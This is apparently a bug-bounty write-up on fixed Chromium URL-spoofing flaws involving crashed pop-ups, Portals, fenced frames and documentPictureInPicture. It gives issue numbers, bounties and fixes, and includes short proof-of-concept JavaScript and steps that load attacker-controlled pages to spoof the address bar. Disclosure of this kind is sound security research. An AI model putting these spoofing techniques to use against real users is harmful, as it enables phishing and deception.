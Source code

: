 ```yaml
---
title: URL Spoof (Fixed)
---
```


# Crashing

By crashing a cross-origin pop-up then navigating it to `data:html,foo` which gets blocked, The URL would stay cross-site but the page would be same-origin
[Issue 40054631](https://issues.chromium.org/issues/40054631) was duplicate but made a good twitter background.

Later there was a ghost image issue where the page stayed cross-origin but the contents of the previous page showed [Issue 40057561](https://issues.chromium.org/issues/40057561) was awarded $1000

I also tried the same thing with portals [Issue 40064170](https://issues.chromium.org/40064170) and it worked was awarded $2000. [video PoC](https://www.youtube.com/watch?v=yy7dR88RIHw)

```js
// --enable-features=Portals,PortalsCrossOrigin
// onclick is optional
onclick = () => {
  portal = document.createElement('portal');
  // Victim page crashs
  portal.src = 'https://ndev.tk/crashself.html';
  document.body.appendChild(portal);
  setTimeout(() => {
    // HTTP STATUS 204
    portal.src = 'https://terjanq.me/xss.php?status=204';
    portal.activate();
  }, 6000);
};
```

These attacks where migrated by needing to crash cross-site, however [Issue 40054631](https://issues.chromium.org/issues/40054631) had a way to do it similar to the [crossOriginIsolated bypass](https://ndevtk.github.io/writeups/2021/12/30/crossoriginisolated-bypass/) and any extension can crash any tab [Issue 40848497](https://issues.chromium.org/issues/40848497)

# documentPictureInPicture (Fixed)

Did not update security UI on `about:blank` navigations so any window reference allows for a spoof. [video PoC](https://www.youtube.com/watch?v=yiAr4J-e6P8)

- Enable feature `chrome://flags/#document-picture-in-picture-api` (in Origin Trial)
- On victim page do `documentPictureInPicture.requestWindow();`
- Victim PiP opens popup to attacker page like `open('https://example.org', '', 'popup=1');`
- On attacker page run `opener.location = 'about:blank';` and notice security UI did not update.
- On attacker page run `opener.document.write('foo');`

This was awarded $1000 and fixed in [Issue 40062959](https://issues.chromium.org/40062959) by ensuring subsequent about:blank loads close the PiP window.
First patch was bypassable by using the extension `chrome.tabs.discard()` API. [video PoC](https://www.youtube.com/watch?v=yH-Cd0wWJEU).

When using fenced frames `documentPictureInPicture` would display the top-page origin not the embed.

```js
f = document.createElement('fencedframe');
f.src =
  'https://terjanq.me/xss.php?h[Supports-Loading-Mode]=fenced-frame&js=onclick=()=>documentPictureInPicture.requestWindow();';
document.body.appendChild(f);
```

This was awarded $4000 and fixed in [Issue 40062954](https://issues.chromium.org/40062954) [Issue 40063068](https://issues.chromium.org/40063068) by making it so non-topmost frames can't open PiP.
